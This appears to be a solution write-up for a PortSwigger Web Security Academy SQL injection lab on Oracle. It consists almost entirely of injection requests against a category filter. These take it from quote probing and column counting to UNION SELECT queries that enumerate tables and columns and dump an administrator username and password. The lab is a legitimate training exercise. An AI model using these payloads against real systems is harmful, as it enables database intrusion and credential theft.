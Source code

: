 #Lab: SQL injection attack, listing the database contents on Oracle

#https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
```bash
GET /filter?category=Gifts'
```
```bash
GET /filter?category=Gifts'--
```
```bash
GET /filter?category=Gifts' order by 1--
GET /filter?category=Gifts' order by 2--
GET /filter?category=Gifts' order by 3--
```
```bash
Gifts' UNION SELECT 'a','a'FROM DUAL--
```
```bash
Gifts' UNION SELECT banner,NULL FROM v$version--

#Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
```
```bash
  Gifts' UNION SELECT table_name,NULL FROM all_tables--

#USERS_WXHYIG
#APP_USERS_AND_ROLES
#SDO_PREFERRED_OPS_USER
```
```bash
GET /filter?category=Gifts' UNION SELECT column_name,NULL FROM all_tab_columns where table_name= 'USERS_WXHYIG'--

#PASSWORD_SBBXJA
#USERNAME_TVNWJG
```
```bash
GET /filter?category=Gifts' UNION SELECT USERNAME_TVNWJG,PASSWORD_SBBXJA FROM USERS_WXHYIG --
administrator
t696w0o3z6xyd7glavwd
```
